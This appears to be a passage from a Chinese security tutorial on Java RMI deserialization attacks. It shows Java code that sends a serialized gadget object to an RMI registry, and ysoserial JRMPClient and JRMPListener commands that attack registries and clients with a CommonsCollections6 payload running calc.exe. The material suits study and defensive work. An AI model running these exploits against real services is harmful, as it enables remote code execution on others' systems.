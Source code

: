 ```java
        Field operationsField = registry.getClass().getDeclaredField("operations");
        operationsField.setAccessible(true);
        Operation[] operations = (Operation[]) operationsField.get(registry);

        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);

        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(new Wrapper(expMap));

        ref.invoke(var2);
    }
}

class Wrapper implements Remote, Serializable {
    private Object obj;

    public Wrapper(Object obj) {
        this.obj = obj;
    }
}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201855435.png)

#### JRMPClient

ysoserial 提供了 JRMPClient 这个 **exploit** 来攻击 Registry, 它的原理是利用 RMI 的 DGC 层进行反序列化

利用方式如下

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 192.168.100.1 1099 CommonsCollections6 "calc.exe"
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211202007239.png)

### 攻击 Client

#### 通过 Registry 攻击 (JRMPListener)

原理是当 Client 调用 Registry 的 lookup / list 方法时, RegistryImpl\_Skel 会进行 writeObject, 那么在 Client 端一定会出现 readObject, 从而造成反序列化漏洞

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211201958144.png)

ysoserial 提供了 JRMPListener 这个 **exploit** 来攻击 Client (当然也可以 rasp hook 或手工伪造 Registry response)

利用方式如下

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "calc.exe"
```
